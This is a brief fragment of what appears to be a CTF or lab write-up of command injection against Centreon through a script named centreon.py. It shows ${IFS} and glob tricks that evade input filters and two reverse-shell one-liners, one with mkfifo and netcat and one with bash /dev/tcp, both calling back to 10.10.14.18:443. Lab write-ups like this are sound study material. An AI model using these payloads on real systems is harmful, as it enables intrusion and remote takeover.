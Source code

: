 成功查看了wget的版本，1.19.4

---

`./centreon.py "uname${IFS}-a"`

---


```
echo 123
123

```
---

```
echo /b?n/?s
/bin/ls /bin/ps /bin/ss

```
---


```
echo /b?n/?c
/bin/nc

```
---


```
 /b?n/?c -h

OpenBSD netcat (Debian patchlevel 1.187-1ubuntu0.1)

```
---

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| /b?n/?c 10.10.14.18 443 >/tmp/f
失败

/bin/bash -i >& /dev/tcp/10.10.14.18/443 0>&1

```
---
/bin/?s /

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/1.PNG)

```
bin
boot
dev
etc
home
...
```
---

